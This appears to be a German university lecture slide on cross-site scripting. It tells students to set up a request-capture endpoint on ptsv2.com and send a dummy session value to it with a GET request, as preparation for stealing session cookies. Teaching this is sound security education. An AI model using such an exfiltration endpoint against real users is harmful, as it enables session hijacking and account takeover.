

# Cross-Site Scripting (XSS)
Um die Session eines anderen Users zu stehlen, müssen wir die Cookies irgendwie abfangen. Dafür gibt es einige Möglichkeiten.
Zuerst die einfache Möglichkeit:
Erstelle eine neue Toilette: https://ptsv2.com/
An diese Toilette können wir nun Daten senden, entweder mit POST- oder GET-Requests. Probiere Daten mittels GET zu senden, z.B: https://ptsv2.com/t/ll80z-133769420/post?session=foobar (verwende Deine Toiletten ID!)
Überprüfe ob Du die Daten des GET-Requests in Deinem Dump findest.
09.06.2022
FH Salzburg  ·  ITS  ·  Georg Schäfer
11